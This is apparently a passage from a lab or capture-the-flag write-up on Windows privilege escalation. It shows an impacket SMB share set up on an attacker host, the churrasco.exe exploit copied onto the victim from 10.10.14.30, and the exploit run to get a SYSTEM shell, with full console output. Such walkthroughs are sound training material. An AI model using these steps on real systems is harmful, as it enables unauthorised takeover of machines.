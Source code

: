 So we are going to use churrasco.exe from https://github.com/jivoi/pentest/blob/master/exploit_win/churrasco

Download it and then set up a fileshare in the same directory as the file you want to transfer.

```console
└──╼ [★]$ sudo impacket-smbserver share .
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```
Copy it over with this command while on the victim system.

```console
C:\temp>copy \\10.10.14.30\share\churrasco.exe 
copy \\10.10.14.30\share\churrasco.exe
        1 file(s) copied.
```
Running it like so will give us root access!

```console
C:\temp>churrasco.exe -d cmd.exe
churrasco.exe -d cmd.exe
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x734
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x72c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami

C:\temp>whoami
whoami
nt authority\system

C:\WINDOWS\TEMP>
```
